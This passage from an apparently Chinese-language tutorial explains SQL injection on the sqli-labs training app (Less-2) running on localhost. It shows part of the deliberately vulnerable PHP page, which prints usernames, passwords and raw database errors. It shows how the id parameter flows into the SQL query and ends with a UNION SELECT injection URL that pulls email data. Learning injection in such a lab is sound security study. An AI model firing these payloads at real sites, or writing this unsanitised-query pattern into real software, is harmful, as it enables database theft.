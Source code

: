 ```php
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysqli_error($con));
	echo "</font>";  
	}
}
	else
		{ 	
		echo "Please input the ID as parameter with numeric value";
		}

?>
```

以上代码执行SQL语句的过程，本质上就是传递SQL语句到数据库当中去执行

比如客户端传参数时访问链接为

`http://localhost/pentest/sqlilabs/Less-2/index.php?id=1`

![](https://img.yatjay.top/md/202203251630578.png)

则实际在MySQL数据库中执行的查询语句就是

```sql
SELECT * FROM users WHERE id=1 LIMIT 0,1
```

![](https://img.yatjay.top/md/202203251630150.png)

同理客户端传参数时访问链接为

`http://localhost/pentest/sqlilabs/Less-2/index.php?id=-2`

![](https://img.yatjay.top/md/202203251630749.png)

则实际在MySQL数据库中执行的查询语句就是

```sql
SELECT * FROM users WHERE id=-2 LIMIT 0,1
```

![](https://img.yatjay.top/md/202203251630335.png)

同理客户端传参数时访问链接为(假定知晓数据库名及列名(当然这些可以从MySQL默认的表当中获得，后续学习))

`http://localhost/pentest/sqlilabs/Less-2/index.php?id=-2 union select 1,email_id,3 from emails `
